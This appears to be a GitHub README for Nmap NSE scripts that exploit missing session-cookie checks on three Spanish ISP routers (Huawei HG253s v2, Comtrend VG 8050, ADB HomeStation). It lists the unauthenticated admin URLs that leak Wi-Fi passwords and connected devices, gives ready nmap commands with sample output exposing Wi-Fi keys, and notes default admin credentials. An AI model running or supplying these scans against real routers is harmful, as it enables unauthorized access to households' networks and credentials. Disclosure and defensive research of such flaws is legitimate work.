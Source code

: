 # What is it?
Some NSE scripts to search information from routers.

#Huawei HG253s v2
Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [VicenDominguez](https://www.github.com/vicendominguez/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://<IP>/html_253s/api/ntwk/WlanBasic
* http://<IP>/html_253s/api/system/diagnose_internet
* http://<IP>/html_253s/api/system/hostinfo?type=ethhost
* http://<IP>/html_253s/api/system/hostinfo?type=guesthost
* http://<IP>/html_253s/api/system/hostinfo?type=homehost
* http://<IP>/html_253s/api/system/hostinfo?type=wifihost
* http://<IP>/html_253s/api/system/wizardcfg

##Usage
```
nmap --script=http-enum-vodafone-hua253s.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-vodafone-hua253s: 
|   SSID: vodafone070 (14:b9:XX:XX:XX:XX) Password: (AES) 123456
|   Device: android-246e67b281179679-Wireless MAC: 48:5A:3F:XX:XX:XX IP: 192.168.0.XX

```
#Comtrend VG 8050
Telefonica-Spain is starting to rent a new Comtrend VG 8050 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://<IP>/getWifiInfo.jx
* http://<IP>/listDevices.jx
* http://<IP>/infoApplications.jx

##Usage
```
nmap --script=http-enum-telefonica-comtrend-vg-8050.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-comtrend-vg-8050: 
|   SSID: MOVISTAR_XXX
|   Cipher Algorithm: WPA
|   Password WEP: 
|   Password WPA: gTU3NkXE44RYjuM2RrxM
|   Password WPA2: 
|   Device: 192.168.0.X MAC: 5c:97:X:X:X:X IP: 192.168.0.X

```
#ADB P.DGA4001N a.ka HomeStation
Telefonica-Spain is starting to rent a new ADB P.DGA4001N router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://<IP>/getWifiInfo.jx
* http://<IP>/listDevices.jx
* http://<IP>/infoApplications.jx

Add the credentials by default are admin / 1234
##Usage
```
nmap --script=http-enum-telefonica-homestation.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-homestation: 
|   SSID: WLAN_HOME
|   Cipher Algorithm: WEP
|   Device: IphonePedro MAC: A8:8E:24:X:X:X IP: 192.168.1.X

```
